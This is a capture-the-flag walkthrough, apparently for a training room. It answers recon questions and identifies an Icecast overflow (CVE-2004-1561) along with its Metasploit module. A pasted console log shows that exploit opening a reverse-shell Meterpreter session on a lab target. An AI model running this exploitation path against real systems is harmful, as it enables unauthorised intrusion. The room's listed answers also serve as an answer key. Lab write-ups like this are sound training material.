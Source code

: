 **Which port is MSRDP**

- 3389

**What service did nmap identify as running on port 8000? (First word of this service)**

- Icecast

**What does Nmap identify as the hostname of the machine? (All caps for the answer)**

- DARK-PC

* * *

## Gain Access

Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). **What type of vulnerability is it?** Use [https://www.cvedetails.com](https://www.cvedetails.com) for this question and the next.

- Execute Code Overflow

**What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000**

- CVE-2004-1561

After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 

- ``exploit/windows/http/icecast_header``

First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command ``exploit``

```shell
msf6 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 10.2.127.225:4444 
[*] Sending stage (175686 bytes) to 10.10.223.231
[*] Meterpreter session 1 opened (10.2.127.225:4444 -> 10.10.223.231:49169) at 2022-07-08 17:49:09 -0700

meterpreter > 
```

* * * 

## Escalate

Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room.
